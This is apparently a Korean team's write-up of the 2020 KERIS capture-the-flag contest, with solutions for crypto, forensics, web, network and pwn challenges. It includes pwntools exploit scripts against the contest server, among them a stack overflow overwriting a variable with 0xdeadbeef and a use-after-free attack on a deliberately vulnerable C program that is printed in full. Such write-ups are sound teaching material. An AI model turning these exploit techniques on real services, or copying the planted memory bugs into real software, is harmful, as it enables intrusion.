




# 2020 6th KERIS CTF WriteUp

Rank: 16th (837pts)

## CRYPTO

### Caesar...시져... (50)
```
l grq'w nqrz krz wr vwduw wklv ohwwhu, ehfdxvh l'p diudlg lw pljkw eh wkh hqg ri rxu jrrg dftxdl qwdqfh, ri li l'p oxfnb, wkh uhdolcdwlrq ri pb guhdpv, zklfk lv iru brx wr oryh ph dv l oryh brx. l wrog pb vhoi l pljkw dv zhoo wdnh wkh ulvnv ehfdxvh lw'v wkh rqob uhphgb l nqrz wkdw frxog xqexughq wklv ihholqj l'yh ehhq nhhslqj hyhu vlqfh. NHULV{L_zdqw_wr_oryh} l'yh qhyhu ehhq olnh wklv ehiruh. l mxvw grq'w nqrz krz wr srxu rxw pb ihholqjv iru brx l zdqwhg wr ilqg wkh shuihfw zrugv wr pdnh brx uhdolch krz pxfk l qhhg brx dqg l oryh brx, exi zrugv frqwlqxh wr hoxgh ph, zkdw zrxog wkhb eh? vrphwklqj srhwlf? l'p vxuh lw vkrxog eh khduwihow dqg rxw ri wkh ruglqdub.
```
key = 3

`KERIS{I_want_to_love}`

### Origin of steganography (50)

stegsolve green plane 0, 1, 2, 3


## FORENSIC

### Hackers Log (50)

2322nd line  

`128.313.82.123 - - [22/Jan/2019:04:05:02 +0330] "GET /product/28681/57539/%D9%81%D8%B1-%D8%AA%D9%88%DA%A9%D8%A7%D8%B1-%D8%A7%D8%AE%D9%88%D8%A7%D9%86-%D9%85%D8%AF%D9%84-F29 HTTP/1.1" 200 41487 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/534.55.3 `

`KERIS{10_15_6}`

## REVERSING

### charculator (50)


```py
from pwn import *
p=remote("52.78.205.49", 9999)

p.recv()
p.sendline('\x02\xf1\x15')
p.recv()
p.sendline('+')
p.recv()
p.sendline('\x22\x22')
p.interactive()
```

`KERIS{}`

## WEB

### 개발 후 마무리는 깔끔하게 (50)

view-source

`KERIS{G00dg00DS0urc3}`

### 잡아스크립트 (50)

블럭을 랜덤한 위치로 보내는 코드를 수정하면 된다.  

`KERIS{Cl1ckClic7Cl1cick}`

## NETWORK

### netaddr(95)

```py
from pwn import *
p=remote("52.78.205.49", 54444)
p.recvline()
pay=p.recvuntil("/")
p.recv()
p.sendline(pay[:-2]+str(int(pay[len(pay)-2])+2))

p.interactive()
```

`KERIS{501d7f668a8307f52ecfd7f62aa486d430afceae34b50a10c70afe713fc9fba8}`

### Keyboard (188)



USB 패킷캡쳐 파일이다.

```sh
tshark -r keyboard.pcap -T fields -e usb.capdata | grep :00:00:00:00:00
```



`00:00:00:00:00:00:00:00` 과 2번째 byte, 4번째~8번째 byte를 지워주자.  

```
20:00:
20:13: P
20:00:
20:1a: W
20:00: 
00:2c: 
20:0c: I
20:00: 
20:16: S
20:00:
20:00:
20:1a: W
20:00:
20:0b: H
20:00:
20:04: A
20:00:
20:17: T
20:00:
20:0b: H
20:00:
20:08: E
20:00: 
20:0f: L
20:00:
20:0f: L
20:00:
20:1e: !
20:00:
20:20: #
20:00:
20:1f: @
20:00:
20:21: $
20:00:
```
첫번째 byte는 키보드 shift, <a href="https://gist.github.com/MightyPork/6da26e382a7ad91b5496ee55fdc73db2" target="_blank"> 이곳에 따르면</a> 2번째 byte가 의미하는 것이 각각 할당된 키이다.  
따라서 이 패킷에는 `PW IS WHATHELL!#@$` 이라는 문자열이 입력되었음을 기록한다.  
문제에서 주어진 `encrypted.docx` 의 암호를 구한 것이다.  
  
암호를 해제하고 다른 이름으로 저장한 뒤 내부 분석하면 

  

플래그가 나온다.

`KERIS{OOXML_FORMAT_SAME_ZIP}`

## SYSTEM (PWN)

### 안 보여요? env여요? (54)

nc 서버에 접속하면 쉘을 사용하게 해준다.  `?` 를 입력해 사용할 수 있는 명령을 보자.  
```sh
$ ?
ls
pwd
cat
export
pwd
id
file
exit
```
```sh
$ cat rabbit.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    char * food;
    food = getenv('food');
    if(food == 'carrot'){
        printf('OMG! thank you!\n');
        printf('here is the flag!\n');
        printf('KERIS {********}\n');
        return 0;
    }
    printf("I'm hungry...\n");
    printf("Please give me some food\n");
}
```

`food` 라는 이름의 환경 변수값이 `carrot` 이라면 플래그를 출력한다.  

```sh
$ export food=carrot
$ ./rabbit
[+] OMG! thank you!
[+] here is the flag!
[+] KERIS{3nv1r0nm3n7}
bye~
^C
```

`KERIS{3nv1r0nm3n7}`

### buf가 num치나 bof니다 (93)

  

`v9` 가 `0xDEADBEEF` 이면 플래그 출력  

```py
from pwn import *
p=remote("52.78.205.49", 1337)

pay='a'*20
pay+=p32(0xdeadbeef)

p.recv()
p.sendline(pay)

p.interactive()
```

### uaf (150)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int while_flag = 1; 
u_int64_t pointer_table[5] = {0,};

void init()
{
	setvbuf(stdout, 0, 2, 0);
}

void menu()
{
	printf("################################\n");
	printf("################################\n");
	printf("######DO YOU KNOW UAF?##########\n");
	printf("1. malloc\n");
	printf("2. free\n");
	printf("3. write\n");
	printf("4. get flag\n");
	printf("################################\n");
	printf("################################\n");
}

void heap_alloc()
{
	int num, i;
	char *buf;
	printf("malloc stage\n");
	buf = (char*)malloc(100);
	bzero(buf, 100);
	for(i=0; i<=5; i++)
	{
		if(pointer_table[i] == NULL)
		{
			pointer_table[i] = buf;
			break;
		}
	}
	printf("pointer_table[%d] = 0x%x\n",i,pointer_table[i]);
	if(i == 5)
	{
		printf("Finished in 5 times\n");
		exit(0);
	}
}

void heap_free()
{
	int num;
	printf("free stage\n");
	printf("whatis free pointer_table idx free?\n");
	scanf("%d",&num);
	if(num<=5)
		free(pointer_table[num]);
	else
		printf("no no!! idx small 5\n");
}

void heap_write()
{
	int num;
	char data[100];
	printf("heap write stage\n");
	printf("whatis write pointer_table idx?\n");
	printf("but, nummust not be 0\n");
	scanf("%d",&num);
	if(num != 0 && num<=5)
	{
		printf("\nwrite data : ");
		scanf("%s", &data);
		if(pointer_table[num] != NULL){
			memcpy(pointer_table[num], data, 100);
			printf("pointer_table[%d] data : \n %s\n",num,pointer_table[num]);
		}
		else{
			printf("T.T\n");
		}
	}
	else
		printf("no no!! idx small 5\n");
}
void get_flag()
{
	printf("get flag stage\n");
	printf("pointer_table[0] data :\n %s \n",pointer_table[0]);
	if(strstr(pointer_table[0],"give_me_flag"))
	{		
		system("cat flag");
		exit(0);
	}
}


int main()
{
	init();
	int num;
	
	menu();
	while(while_flag)
	{
		printf("num : ");
		scanf("%d",&num);
		switch(num)
		{
			case 1 :
				heap_alloc();
				break;
			case 2 :
				heap_free();
				break;
			case 3 :
				heap_write();
				break;
			case 4 :
				get_flag();
				break;
		}
	}
	return 0;
}
```

공격 시나리오: `malloc - free - malloc - write - get_flag`

```py
from pwn import*
p = remote("52.78.205.49", "8282")

p.sendline("1")
p.sendline("2")
p.recvuntil(" :")
p.sendline("0")
p.sendline("1")
p.sendline("3")
p.recvuntil(" :")
p.sendline("1")
p.recvuntil(" :")
p.sendline("give_me_flag")
p.sendline("4")

p.interactive()
```

`KERIS{I_like_winter_because_my_coat_is_pretty}`  

본선 단체전 ㄱㅈㅇ~
